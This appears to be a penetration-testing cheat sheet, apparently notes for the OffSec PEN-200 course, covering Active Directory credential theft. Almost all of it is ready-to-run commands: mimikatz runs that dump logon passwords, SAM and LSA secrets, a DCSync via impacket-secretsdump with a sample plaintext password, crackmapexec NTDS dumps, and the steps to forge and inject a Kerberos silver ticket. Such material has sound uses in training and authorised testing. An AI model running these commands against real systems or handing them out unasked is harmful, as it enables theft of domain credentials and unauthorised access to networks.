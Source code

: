 
### Secret Dumping 
```
#MIMIDUMP
.\mimikatz.exe "privilege::debug" "log mimikatz_passwords.txt" "sekurlsa::logonpasswords" "lsadump::sam" "lsadump::lsa /patch" "exit"

#DC SYNC
lsadump::dcsync /user:<domain>\<user>
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70

#SAM / NTDS DUMP
impacket-secretsdump <user>@<ip>
crackmapexec smb <ip> -u <user> -p <password> --sam / --lsa / --ntds

#IF you are NT SYSTEM
Take a copy of SAM / SYSTEM.
```

### Silver Tickets
Is there an interesting service running such as an HTTP or SMB share that can't be accessed?
https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/attacking-active-directory-authentication/performing-attacks-on-active-directory-authentication/silver-tickets
```
#Grab SID of your user.
whoami /user

#Open mimi
privilege::debug

#Grab NTLM hash of service account
sekurlsa::logonpasswords

#Generate ticket
kerberos::golden /sid:<id> /domain:<domin> /ptt /target:<ip/dnsname> /service:<protocol eg. http /smb> /rc4:<ntlm_of_service> /user:<our_adminuser>

#Check ticket
klist

#Access service
example: iwr -UseDefaultCredentials http://<target>
```


